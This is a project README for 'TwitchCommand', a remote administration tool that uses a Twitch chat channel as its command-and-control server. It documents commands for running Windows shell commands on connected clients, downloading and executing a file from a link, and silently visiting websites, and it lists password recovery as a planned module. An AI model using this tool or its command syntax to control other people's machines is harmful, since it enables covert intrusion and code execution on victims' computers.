 # TwitchCommand [![Open Source Love](https://badges.frapsoft.com/os/v2/open-source.svg?v=103)](https://github.com/ellerbrock/open-source-badges/) [![PRs Welcome](https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square)](http://makeapullrequest.com) [![GPL Licence](https://badges.frapsoft.com/os/gpl/gpl.svg?v=103)](https://opensource.org/licenses/GPL-3.0/)
A remote administration tool that uses Twitch Chat as a Command and Control server. This program connects clients to a designated Twitch Chat and listens for commands. Inspired by the [Slackor](https://github.com/Coalfire-Research/Slackor) project. Make sure to check it out.

# Requirements
- Twitch account.
- Python 3.x
- PyInstaller (will be required with the next build.)

# Disclaimer
The usage of this program directly violates the Twitch Developer Agreement. The usage of it will lead to the termination of your account and possible further action based on the severity of its usage.

This program was created as a Proof of Concept and it is not intended to be used in a malicious way. I am not responsible for any damages or criminal charges that come from using it.

# Features
`cmd`  Windows CMD commands. Structured as `cmd command`

`de` Download and execute. File is removed after execution. Structured as `de link`. May throw `Win5 Error` if the user is prompted for UAC.

`visit`  Silently visits a website. Structured as `visit link`

### Screen currently does not work. I'm fixing it now.

# Usage
Navigate to the twitch page of the channel you selected when making the program.

Upon connection to a server, a new client will announce its presence and client name. If you would like to view a list of all connected clients please use the list command. 

![New Connection.](https://i.imgur.com/fT6yice.png)

`!list`

![List connections.](https://i.imgur.com/RY81sGt.png)

This program also features different modules which can be used.

`!act client command action true`

- Act is the keyword to use a command for the client.
- Client specifies a singular user or a group. You can use a specific name (ex: DESKTOP-TEST) or 'all'.
- Command specifies the intended module to use.
- Action is what to use with the selected module. For example 'start.' will open the current directory on the clients PC when using CMD.
- True is just a placeholder value as I was too lazy to scrub \r\n off the final value. You can write anything.

An example cmd command would be:

`!act all cmd start. true`

![Client action.](https://i.imgur.com/g7d5P83.png)

This would open the current directory on every connected clients PC.

An example download+execute command would be:

`!act DESKTOP-TEST de https://example.com/files/file.exe true`

It currently only supports exe files.

# Creating the program.
### Coming soon: a builder.
Making the program is quite simple. 
- Change the NICK value on line 10 to your Twitch username.
- Change the PASS value on line 11 to your OAuth password (acquire it here: https://twitchapps.com/tmi/)
- Change the CHAN value on line 12 to a desired channel to listen in. It's recommended to use your personal twitch chat as a streamer may ban an account they see posting odd messages and commands.
- Change CLIENT_ID value on line 20 to an Imgur api client id. This is only necessary if you want to use the `screen` command. THis command is currently not in the program as it was added too early and is not ready. It will be coming soon.

# Upcoming features
- More modules (password recovery and screenshot coming soon.)
- Download & execute supporting all file types.
- Removing the requirement for 'true' in commands (proper scrubbing.)
- A builder to simplify making the program as well as making it an exe.
- Command line based control module as an alternative to the twitch website.
